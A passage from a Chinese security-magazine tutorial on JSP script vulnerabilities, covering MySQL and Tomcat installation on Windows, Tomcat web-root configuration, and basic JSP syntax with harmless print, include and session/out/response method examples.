

# 图8

# 大型站点最爱---JSP 脚本攻防

过程如图 10 所示，安装完成后，会跳出如图 11 所示的页面。







我们不用理会它，选择 “Skip Sign-Up” 后直接 NEXT。接着会出现 MYSQL 的配置向导选择页，我们将 “Configure the Mysql Server now” 前面的勾打上，点 “Finish” 结束安装，如图 12 所示。然后就会进入 MYSQL 的配置向导，如图 13 所示。



# 图12



# 图13

NEXT后，出现选择配置方式的页面，“Detailed Configuration”为手动精确配置、“Standard Configuration”为标准配置，这里我们选择“Detailed Configuration”，目的是让各位读者熟悉配置过程，如图 14 所示。



# 图14

NEXT过后会出现服务器类型选择，这里我们选择“Developer Machine”。选好后点击 "NEXT" 按钮 进入 下一步，如图 15 所示。



接下来一直 NEXT 就可以了，当来到如图 16 所示的页面时，我们需要设置当前数据库的密码，这里我设置的是 "nohack"。NEXT 过后来到如图 17 所示的页面，我们不用理会，直接点击 "Execute" 按钮。





接下来需要我们等待一下，休息休息吧，等到四个选项都自动打上勾后，点击 “Finish” 按钮完成设置，如图 18 所示。



MYSQL 安装完毕后我们来安装 Tomcat。打开 Tomcat 的安装程序，如图 19 所示。



NEXT 过后来到用户协议页面，不用理会它，选择 “I agree” 后直接 NEXT，如图 20 所示。

接着就会进入选择安装类型页面，我们在下拉框中选择 “full”，即完全安装，然后 N E X T 来到选择安装目录的页面，选择好我们的安装目录后点击 “N E X T ” 按钮，如图 21 所示。

N E X T 过后来到如图 22 所示的页面，这一步是我们设置 Tomcat 的管理员账号、密码还有端口，设置好后点击 “N E X T ”。

最后一步是设置 JDK 的安装目录，这里一般不用我们手动设置，Tomcat 会自动搜索 JDK 的安装路径，所以直接点 “Install” 按钮开始安装就行了，如图 23、图 24 所示。

Tomcat 安装完毕后，我们打开 IE，在地址栏中输入 “http://127.0.0.1:8080”，如果出现如图 25 所示的页面，那么就代表 Tomcat 安装并运行成功。








现在我们到Tomcat的网站默认目录“C:\Tomcat 5.5\webapps\ROOT”中新建一个nohack.jsp的文件，内容如下：

```
<% out.println("I 10v4 Scr1pt!!"); %>
```

然后打开“http://127.0.0.1:8080/nohack.jsp”，如果显示如图 26 所示的页面，则表示 nohack.jsp 的代码成功执行了。若你不明白 nohack.jsp 代码的含义，不要紧，在学习了后面的知识后，你就会理解了。

最后，我们来安装 Tomcat 的“Tomcat Server Administration”功能，安装的方法很简单，打开 Tomcat-5.5.26-admin.rar，把里面的文件全部解压到 Tomcat 的根目录并覆盖就

了。至此，JSP 环境搭建成功。


如果你想更改 Tomcat 的默认目录，有两种方法：

(1) Tomcat6 以上的版本：

```
<Host name="localhost" appBase="webapps/root" unpackWARs="true" autoDeploy="true" xmlValidation="false" xmlnsNamespaceAware="false">
```

打开 Tomcat/conf/server.xml，找到以下代码，修改其中 appBase 的值为其他目录即可。

(2) Tomcat 的其他版本：

```
<Context path="/demo" docBase="F./Tomcat5.5/webapps/root "/>
```

打开 Tomcat/conf/web.xml，找到以下代码，修改其中 docBase 的值就行了。

需要注意的是：“\” 要换成 “/”，而且 Tomcat 对大小写敏感，要小心修改。另外，最好不要放在有空格的目录中，因为当你的 web 目录中存在两或两个以上的文件夹名称中有空格的话，Tomcat 就会出现错误。

有些朋友可能会喜欢把 Apache 和 Tomcat 整合来调试程序，但是我还是建议新手朋友不要这样，因其过程非常繁琐，并不利于新手学习 JSP。如果读者朋友们只是想学习 JSP 基本语法，和调试一些 JSP 脚本程序的漏洞，仅用 Tomcat 来作解析就够了。但如果有的朋友想在 Apache+Tomcat 的环境下调试程序也没关系，我也提供了 Apache 和 mod_jk2，mod_jk2 这个模块在网上已经很难下载到了。

### 三、JSP 语言入门

如果你对前面所述的内容有所困惑，那是很正常的，因为基础的东西就是这样，当你学习了往后的内容时，再回头来理解前面的内容，那就是一件很轻松的事了。接下来，我就开始给大家讲解寻找 JSP 程序漏洞需要了解的有关知识。

JSP 语言和 ASP 语言有个共同点，就是它们都是使用 “<%” 和 “%>” 来作为代码编写的开始与结束，表达式也是用 “<%= 表达式 % >” 的形式来表示的，如图 27 所示，那就是 JSP 常用语法的。

刚才已经说了 JSP 的开始与结束和表达式的表示方法，现在要说的就是包含和注释。JSP 的注释使用 “<%--” 表示注释的开始，“--% >” 表示注释的结束。如下代码所示，就是一个 JSP 注释的例子：

```
<%-- 我爱非安全黑客手册 --%>
```

下面我们实践一下，把以下代码保存为 nohack1.jsp：

```
<%
    out.print("I 10v4 NOH4CK!!");
%>
```

然后把以下代码保存为 nohack2.jsp 并存放在与 nohack1.jsp 相同的目录中：

```
<%@ include file="nohack1.jsp" %>
```

现在我们用 IE 浏览 nohack2.jsp，返回结果如图 28 所示。


说明 nohack2.jsp 成功包含了 nohack1.jsp，并执行了 nohack1.jsp 的代码。现在说说 nohack1.jsp 的代码，代码使用了 out 对象中的 print 方法，print 方法是用来输出文字内容的。

有些朋友可能会问，刚才 nohack.jsp 文件使用了 println 方法来输出内容，而现在 nohack1.jsp 文件则使用 print 方法来输出内容，两者之间的区别是什么呢？

> 其实在 java 编程中，用 println 方法输出文字的同时会换行，print 方法则不会，而在 JSP 编程中两者的效果是一样的，out.print 或 put.println 的用法类似于 ASP 中的 response.write。

学习 JSP 的脚本漏洞，只需要学习 “request”、“response”、“out” 和 “session” 这四个对象就能挖掘简单的 JSP 脚本漏洞了。下面我将列出所有上面介绍到的对象的方法和含义。

# Session 对象的含义是什么呢？

当一个客户首次访问服务目录中的一个 JSP 页面时，JSP 引擎产生了一个 session 对象。这个 session 对象调用相应的方法可以存储客户在访问各个页面期间提交的各种信息，比如姓名、号码等。这个 session 对象被分配了一个 string 类型的 id 号，JSP 引擎同时将这个 id 号发送到客户端，存放在客户的 Cookie 中。这样，session 对象和客户之间就建立起一一对应的关系，即每个客户都对应着一个 session 对象，不同用户的 session 对象互不相同，具有不同的 id 号码。
JSP 引擎为每个客户启动一个线程，也就是说，JSP 为每个线程分配不同的 session 对象。当客户再访问链接服务目录的其他页面时，或从该服务目录连接到其他服务器再回到该服务目录时，JSP 引擎不再分配给客户新的 session 对象，而是使用完全相同的一个，直到客户关闭浏览器或这个 session 对象达到了最大生存时间，服务器端该客户 session 对象才会被取消，和客户的会话对应关系也就消失了。当客户重新打开浏览器再连接到该服务目录时，服务器为该客户再创造一个新的 session 对象。

# session 对象的常用方法：

+   - 1、getAttribute()
 返回含在 session 对象中的数据
- 2、getAttributeName()
 返回一个存储在 session 对象中的对象列表
- 3、getCreationTime()
 返回一个 session 对象的创建时间
- 4、getId()
 返回 session 对象的 ID
- 5、getLastAccessedTime()
 返回 session 对象最后一次被用户访问的时间
- 6、getMaxInactiveInterval()
 返回在该 session 对象过期之前，有多少秒时间是处于非活动状态
- 7、getValue()
 从 session 对象获得属性值，调用方法：getValue(String name,Object value)
- 8、getValueName()
 返回存储在 session 对象中的一个对象列表
- 9、invalidate()
 使该 session 对象不再使用，并清除存储在该对象中的所有对象
- 10、isNew
 返回服务器创建的一个 session，客户端是否已经加入
- 11、putValue()
 存储对象到 session 对象中，调用方法：putValue(String name, Object value)
- 12、removeAttribute()
 清除在 session 中由 name 所指定的对象
- 13、removeValue()
 删除 session 中指定名的属性，调用方法：removeValue(String name)
- 14、setAttribute()
 存储对象到 session 对象中，调用方法：setAttribute(String name,Object value)
- 15、setMaxInactiveInterval()
 设定两次请求间隔超过多少时间时 session 将被取消，调用方法：setMaxInactiveInterval(int interval)

out 对象是一个输出流，用来向客户端输出数据。out 对象的常用方法如下：

+   - 1、print()
 显示各种数据类型的内容
- 2、println()
 同上
- 3、newLine()
 输出一个换行符, 换一行
4、close()
 关闭输出流
5、clear()
 清除缓冲区的内容, 不将数据发送至客户端
6、clearBuffer()
 清除缓冲区的内容, 并将数据发送至客户端
7、getBufferSize()
 获取缓冲区大小
8、getRemaining()
 获取缓冲区剩余空间的大小
9、flush()
 输出缓冲区中的数据
10、isAutoFlush()
 获取 AutoFlush 的取值。

Response 对象是学习 JSP 脚本漏洞中的一个重要知识点，response 对象是与 request 对象相对应的，我们可以用 reponse 对象对客户的请求做出动态响应，向客户端发送数据。

比如，当一个客户请求访问一个 jsp 页面时，该页面用 page 指令设置页面的 contentType 属性的值是 text/html，那么 jsp 引擎将按照这种属性值响应客户对页面的请求，将页面的静态部分返回给客户。如果想动态地改变 contentType 的属性值，就需要用 response 对象改变页面的这个属性的值，做出动态的响应。

response 对象的常用方法如下：

+   1. addCookie()
 添加一个 Cookie 对象，用来保存客户端的用户信息。调用方法: addCookie(Cookie cookie)
2. addHeader()
 添加 HTTP 文件头信息，该 Header 将传到客户端去，如果已经同名的 Header 存在，则会覆盖已有的 Header。调用方法: addHeader (String name,String value)
3. containsHeader()
 判断指定名字的 HTTP 文件头是否已经存在，然后返回真假布尔值。调用方法: containsHeader(String name)
4. sendError()
 向客户端发送错误的信息。调用方法: sendError(int sc)
5. setHeader()
 设置指定名字的 HTTP 文件头的值，如果该值已经存在，则新值会覆盖原有的旧值。调用方法: setHeader(String name,
String value)

下面我举个例子，把以下代码保存为 nohack3.jsp ：

```
<%@ page contentType = "text/html; charset = gbk"%>
<%@ page import=\"java.util.*\%>
<%request.setCharacterEncoding("gbk");%>
<html>
<body>
<B><font color=\"blue\" size = \"5\">使用 Response 对象实现定时刷新</font></B>
